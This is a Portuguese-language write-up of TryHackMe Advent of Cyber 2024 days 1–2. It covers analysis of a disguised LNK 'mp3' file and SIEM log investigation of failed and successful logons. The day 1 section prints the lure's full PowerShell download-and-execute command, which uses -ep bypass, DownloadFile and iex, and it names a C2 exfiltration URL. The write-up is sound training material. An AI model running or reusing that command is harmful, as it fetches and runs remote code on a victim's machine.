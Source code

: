 # Advent-of-Cyber-2024-THM
![image](https://github.com/user-attachments/assets/04709f1d-900f-4a3e-9952-d24ccf24caf3)
<img src="https://tryhackme-badges.s3.amazonaws.com/VivianeFerro.png" alt="Your Image Badge" />
## Tarefa 7 : Segurança operacional

### Dia 1: Talvez a música do SOC-mas, ele pensou, não venha de uma loja?

### PASSO A PASSO PARA A RESOLUÇÃO DAS QUESTÕES:

1. Executei o `Nmap` para escanear as portas que estavam abertas, o resultado mostrou 3 portas:
`Porta 22 (SSH)
Porta 80 (HTTP)
Porta 8000 (HTTP-alt)`



![image](https://github.com/user-attachments/assets/c7d43844-fdc9-454a-b562-953a2924df0f)


2. Em seguida enumerei os diretórios do webserver com o `Gobuster`, o que me mostrou o diretório /download estando disponivel



![image](https://github.com/user-attachments/assets/947a076f-b968-4f0e-a30b-a28302a3e680)



3. Acesse o diretório como `http://IP_DA_MAQUINA/download`, assim ele já faz download do arquivo zip denominado `download.zip`.


![image](https://github.com/user-attachments/assets/994d2165-81f4-4ee3-825c-79bc170fdae2)


4. Descompacte o arquivo zip, e lá conterá dois arquivos .mp3, sendo eles **song.mp3** e** somg.mp3**

Utilizando o comando file song.mp3 eu identifiquei o arquivo como sendo um áudio em formato MPEG ADTS se trata realmente de um arquivo de musica, não tem nada de suspeito nele.
![image](https://github.com/user-attachments/assets/1d3396c9-3635-49b9-bcf2-8a1d47a8f7f8)


Mas temos um arquivo disfarçado sendo o segundo arquivo chamado de somg.mp3, a primeira vista também pode parecer suspeito por ter um erro de ortografia. Mas iremos analisar a fundo esse arquivo.
Utilizei o comando file somg.mp3 identifiquei como um atalho LNK ao inves de um arquivo de audio, que apontava para o `powershell.exe`. iremos nos apronfundar muito mais.
![image](https://github.com/user-attachments/assets/4b9fb32d-e983-4834-9a9b-7282d912d88b)


5. Usei `exiftool somg.mp3`, para obter informações mais detalhadas sobre o atalho, e o arquivo apontava para um comando PowerShell, que baixava e executava um script localizado no GitHub, sendo o comando:
`powershell.exe -ep bypass -nop -c (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1')
`

![image](https://github.com/user-attachments/assets/fdf7380b-cde3-42af-8c72-8a3699b23b60)


---------------------------------------------------------------------------------------------


![image](https://github.com/user-attachments/assets/45ce33f5-bab7-4c73-b64f-6bede4101ee0)
* Eu também usei o `exiftool no arquivo song.mp3`, confirmando que ele era realmente um arquivo MP3 e obtendo a informação da 1ª pergunta da TAREFA 7, sendo o Artista: **Tyler Ramsbey**

![image](https://github.com/user-attachments/assets/9eb60ee0-4281-454e-90bd-57aed094c6fa)


-------------------------------------------------------------------------------------------------------------


![image](https://github.com/user-attachments/assets/84059020-f16f-4cc7-9b70-8812c1ed0da0)
* Execute o comando` exiftool somg.mp3`, copie o link, e cole no navegador, e analise o conteúdo, e que responde nossa pergunta está na função Send-InfoToC2Server que envia as informações roubadas para um servidor C2 (Command and Control) usando um comando Invoke-WebRequest. O servidor C2 especificado está localizado na URL `http://papash3ll.thm/data`.
![image](https://github.com/user-attachments/assets/e8316db0-ac58-46a6-a9ad-d1b66e6df77c)
![image](https://github.com/user-attachments/assets/29092bbb-e21b-436d-a9fe-cb63d0b974d1)


-------------------------------------------------------------------------------------------------


![image](https://github.com/user-attachments/assets/835e0920-5b9c-4cdd-8428-0b45d7d59e8b)
* Fácil, Fácil. 
https://github.com/MM-WarevilleTHM/M.M



------------------------------------------------------------------------------------------------




![image](https://github.com/user-attachments/assets/801d6509-2a73-4f99-be85-e1e059fe6fd4)
https://github.com/Bloatware-WarevilleTHM/CryptoWallet-Search/commit/e2a7aea21f07f52ebdc7d9c1edfa7ac546f7406d
![image](https://github.com/user-attachments/assets/e1337464-cacd-4403-8ac9-a0f31e70b02f)











## Tarefa 8

## Análise de log



### Dia 2: O falso positivo de um homem é a miscelânea de outro.


### PASSO A PASSO PARA A RESOLUÇÃO DAS QUESTÕES:
![image](https://github.com/user-attachments/assets/a4b96c0f-8394-4af4-95ff-b314913112e0)

* Para determinar quantas tentativas de logon com falha ocorreram, eu acessei o Elastic SIEM e utilizei filtros específicos para refinar a minha busca e obter um resultado preciso.
Primeiro, apliquei um filtro na categoria do evento. 
* Defini o filtro `event.category` como `authentication` para selecionar apenas os eventos relacionados a autenticação de usuários, depois, acrescentei o filtro `event.outcome` como `failure`. Dessa forma, eu estava focando apenas nas tentativas de logon que falharam, ou seja, aquelas que não foram bem-sucedidas.
* Para garantir que todos os eventos relevantes fossem incluídos, configurei o intervalo de tempo para abranger de 29 de novembro de 2024 até 1º de dezembro de 2024. Assim, tive certeza de cobrir todos os eventos relacionados ao alerta de segurança que estava sendo analisado.
* Depois de aplicar esses filtros, o resultado exibido foi de 6.791 hits, ou seja, 6.791 tentativas de logon com falha. Esse valor aparece no topo dos resultados, conforme destacado na interface na evidência abaixo.
![image](https://github.com/user-attachments/assets/d0cc8e7e-3445-4c3d-91a0-773a8f7a7324)


---------------------------------------------------------------------------------------------------------------------------
![image](https://github.com/user-attachments/assets/c61b944a-6ec1-4f8d-9553-120696c2c539)
* Inicialmente, apliquei os filtros `event.category:authentication` para ver somente os eventos relacionados a autenticações, `source.ip` para verificar de onde vinham as conexões que falharam, observando especialmente a origem dos acessos.
* Ajustei o intervalo de tempo para abranger o período de 29 de novembro de 2024 até 1º de dezembro de 2024. Isso me permitiu capturar todos os eventos relevantes para o caso.
* Verificando os resultados, encontrei que um dos IPs associados a um usuário (service_admin) estava se conectando de forma suspeita. Este IP foi identificado na coluna source.ip como `10.0.255.1`.
![image](https://github.com/user-attachments/assets/78b36caf-b782-421e-97ba-b25cc348fb47)
  
---------------------------------------------------------------------------------------------------------------------------

![image](https://github.com/user-attachments/assets/9f5a9ffe-d3f2-4dbf-b52d-10bfa0d013e4)
* Apliquei o filtro `event.category: authentication` para visualizar apenas os eventos de autenticação, e também filtrei por `host.name: ADM-01.wareville.thm` para focar nos eventos que ocorreram especificamente no servidor ADM-01, adicionei o filtro `user.name: service_admin` para selecionar apenas as atividades do usuário que estava realizando a autenticação, por fim, apliquei o filtro `event.outcome: success` para garantir que eu estivesse vendo apenas as tentativas de autenticação que tiveram êxito.
* Após aplicar todos os filtros, encontrei o evento de logon bem-sucedido. No campo Time, estava registrado o momento exato em que o logon foi realizado: Dec 1, 2024 08:54:39.000, esse evento indicava que o Glitch conseguiu fazer logon com sucesso no servidor ADM-01 naquela data e horário.
  ![image](https://github.com/user-attachments/assets/30b6b344-2c5f-47ee-8267-a065ac23f4e0)

--------------------------------------------------------------------------------------------------------------------------
![image](https://github.com/user-attachments/assets/de473c0c-a006-4b55-95d4-da3b4e66495c)

* Iniciei aplicando o filtro `event.category: process` para selecionar apenas os eventos relacionados à execução de processos. Também utilizei outros filtros relevantes, como `host.name` e` user.name`, para garantir que estava analisando apenas os eventos do usuário `service_admin` em máquinas específicas. Adicionei a coluna `process.command_line` para verificar o comando exato que foi executado.

* Encontrei o comando PowerShell executado no servidor. O comando estava codificado em Base64. O comando encontrado foi em base64 foi SQBuAHMAdABhAGwAbAAtAFcAaQBuAGQAbwB3AHMAVQBwAGQAYQB0AGUAIAAtAEEAYwBjAGUAcAB0AEEAbABsACAALQBBAHUAdABvAFIAZQBiAG8AbwB0AA==.
* Copiei o codigo base64 para decodificar o comando no CyberChef, apliquei as operações **From Base64:** Para converter o comando da base codificada. **Decode Text:** Usei a codificação UTF-16LE (1200), pois essa é a usada pelo PowerShell ao codificar um comando com -EncodedCommand.
* O comando decodificado foi `Install-WindowsUpdate -AcceptAll -AutoReboot`.
![image](https://github.com/user-attachments/assets/733f95a3-0cb9-4cdc-aa1a-afcd0cb62c39)


-------------------------------------------------------------------------------------------------------------------------
